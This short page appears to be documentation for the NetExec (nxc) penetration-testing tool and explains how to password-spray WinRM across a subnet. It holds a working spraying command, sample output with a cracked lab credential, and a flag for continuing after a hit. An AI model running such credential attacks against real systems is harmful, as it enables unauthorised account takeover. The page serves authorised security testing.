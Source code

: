 # Password spraying

### Password spraying (without bruteforce)

```
#~ nxc winrm 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

Expected Results:

```
WINRM       192.168.255.131 5985   ROGER            [*] http://192.168.255.131:5985/wsman
WINRM       192.168.255.131 5985   ROGER            [-] GOLD\test1:pass1 "Failed to authenticate the user test1 with ntlm"
WINRM       192.168.255.131 5985   ROGER            [+] GOLD\bonclay:Password@123 (Pwn3d!)
```

{% hint style="info" %}
By default nxc will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Usefull for spraying a single password against a large user list.
{% endhint %}
